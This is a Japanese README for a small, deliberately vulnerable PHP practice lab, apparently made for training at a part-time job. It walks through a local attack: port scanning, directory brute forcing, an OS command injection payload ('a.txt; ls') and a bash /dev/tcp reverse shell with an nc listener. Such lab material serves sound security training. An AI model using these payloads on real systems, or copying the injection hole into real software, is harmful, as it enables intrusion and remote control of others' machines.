 # vulnable_sample
ツールの使い方を簡単に実践するための簡単な環境．バイト先向けの即席で作ったやつだからCSSとか使ってないけど気にしないで...
## use
### easy use way
```php -S localhost:8080```
### exploit
ポートスキャン  
```
nmap -p- localhost
> 8080/tcp closed http-proxy
```
ディレクトリブルートフォース　　
```
dirb http://localhost
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
web調査
```
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  
```
エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
リバースシェル
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，よくあるrobots.txtからのディレクトリの発見や，表からは見えないディレクトリの発見を行う．そこから，ソースコードの情報を元に攻撃方法を推測しコマンド実行を行う(ファイルを読み込んでるのか他の方法OSコマンドからファイルを出力してるのか...).攻撃をより行いやすいようにリバースシェルの接続を行う．

